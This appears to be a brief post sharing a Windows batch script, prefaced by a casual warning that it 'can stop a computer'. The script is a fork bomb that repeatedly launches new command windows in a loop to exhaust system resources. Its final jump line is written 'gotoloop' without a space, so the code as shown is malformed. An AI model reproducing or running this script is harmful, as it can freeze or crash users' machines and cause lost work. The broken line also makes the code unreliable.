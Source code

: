 DO NOT USE THIS FOR BAD
this can stop a computer and yeah 
becarfull 

heres the code:



@echo off

:loop
start
start
start
start
start
start
start
start


gotoloop
